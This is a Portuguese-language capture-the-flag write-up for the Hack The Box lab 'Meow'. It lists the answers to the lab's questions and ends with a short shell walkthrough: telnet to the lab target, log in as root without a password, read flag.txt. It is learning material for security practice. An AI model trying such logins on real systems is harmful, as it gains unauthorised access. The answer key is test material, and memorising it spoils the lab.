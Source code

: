 # Meow

### Tags 
`Linux` `Network` `Account Misconfiguration`
## Questões 

1. **O que significa a sigla VM?** 
*R:* `Virtual Machine`

2. **Que ferramenta usamos para interagir com o sistema operacional para iniciar nossa conexão VPN?**
*R:* `Terminal`

3. **Que serviço usamos para formar nossa conexão VPN?**
*R:* `openvpn`

4.  **Qual é o nome abreviado de uma interface de túnel na saida da sequência de inicialização da VPN?**
*R:* `tun`

5. **Que ferramenta usamos para testar nossa conexão com o alvo?**
*R:* `ping`

6. **Qual é o nome da ferramenta que usamos para escanear as portas do alvo?**
*R:* `nmap`

7. **Qual serviço identificamos na porta 23/tcp durante a varredura?**
*R:* `telnet`

8. **Qual nome de usuário funciona com o prompt de login de gerenciamento remoto para o destino?**
*R:* `root`

## **Envie a flag**
_write-up_:
~~~shell
# telnet 10.129.33.211 23
# Meow login: root
# ls
# cat flag.txt
# HTB{∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎}
~~~
